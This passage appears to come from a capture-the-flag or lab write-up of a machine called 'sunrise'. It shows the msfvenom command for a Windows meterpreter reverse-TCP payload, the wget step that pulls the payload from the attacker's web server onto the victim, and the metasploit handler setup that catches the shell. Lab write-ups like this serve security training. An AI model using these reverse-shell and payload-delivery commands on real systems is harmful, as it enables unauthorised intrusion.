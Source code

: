   style="width: 800px;"/>](../images/sunrise/usertxt.png)

Turns out I could pass a malicious `exe` file to win to gain a root shell.  Lets give it a go.  First I had to generate a malicious payload with msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4545 -f exe >meisty.exe
```
[<img src="../images/sunrise/msfvenom.png"
  style="width: 800px;"/>](../images/sunrise/msfvenom.png)

Then I had to start a python3 web server on my attacker machine so I could transfer the malicious exe to the victim machine.

```bash
python3 -m http.server 80
```

On the victim machine:
```bash
cd /tmp
wget 10.0.2.15/meisty.exe
```

Back on my attacker machine I started up metasploit `msfconsole` and then used the `exploit/multi/handler` with the payload `generic/shell_reverse_tcp.  And I set the lhost and lport. And ran it.

[<img src="../images/sunrise/msfconsole.png"
  style="width: 800px;"/>](../images/sunrise/msfconsole.png)
